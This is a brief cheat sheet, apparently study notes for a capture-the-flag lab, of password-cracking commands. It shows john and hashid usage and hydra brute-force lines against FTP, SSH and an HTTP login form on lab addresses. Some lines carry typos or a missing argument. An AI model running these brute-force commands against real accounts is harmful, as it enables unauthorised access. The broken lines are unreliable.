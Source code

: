 john the ripper , hashcat
hashid "hash word" : the type of hash
hashid file : kifkif

john hashfile --wordlis=path

john hashfile --show




hydra -l user -P ftp://MACHINE_IP

hydra -l <username> -P <full path to pass> 10.10.234.11 -t 4 ssh

 hydra <username> <wordlist> 10.10.234.11 http-post-form "<path>:<login_credentials>:<invalid_response>"

hydra -l <username> -P <wordlist> 10.10.234.11 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V